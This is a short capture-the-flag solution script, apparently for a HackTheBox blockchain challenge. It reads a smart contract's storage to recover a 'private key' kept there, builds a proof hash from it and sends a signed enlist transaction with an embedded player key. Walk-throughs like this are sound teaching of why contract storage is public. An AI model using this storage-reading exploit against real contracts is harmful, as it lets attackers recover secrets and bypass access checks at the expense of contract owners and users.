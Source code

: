 ## Scripts Created

### Automated Solver
```python
#!/usr/bin/env python3
"""
HackTheBox GCB 2025 - Enlistment Challenge Solver
Exploits blockchain storage transparency vulnerability
"""

import socket
from web3 import Web3
from eth_account import Account

def solve_enlistment():
    # Connect to blockchain
    w3 = Web3(Web3.HTTPProvider("http://94.237.48.68:48556"))
    
    # Read private key from storage
    target = "0xFabD4DdC9d21515CEbc5bfcd1a815200b0e4651D"
    storage = w3.eth.get_storage_at(target, 0)
    
    # Reconstruct keys based on constructor logic
    public_key = storage[16:]  # Last 16 bytes
    private_key = storage[:16] # First 16 bytes
    
    # Generate proof hash
    proof_hash = Web3.keccak(public_key + private_key)
    
    # Execute enlist transaction
    player_key = "0xefcfb37078a42b498696ba6d1e16f3997218df86542bb321bf42ec8369165de1"
    account = Account.from_key(player_key)
    
    abi = [{"inputs": [{"type": "bytes32", "name": "_proofHash"}], 
            "name": "enlist", "outputs": [], 
            "stateMutability": "nonpayable", "type": "function"}]
    
    contract = w3.eth.contract(address=target, abi=abi)
    tx = contract.functions.enlist(proof_hash).build_transaction({
        'from': account.address,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': 200000,
        'gasPrice': w3.eth.gas_price
    })
    
    signed = account.sign_transaction(tx)
    w3.eth.send_raw_transaction(signed.raw_transaction)
    print("✅ Player enlisted successfully!")

if __name__ == "__main__":
    solve_enlistment()
```
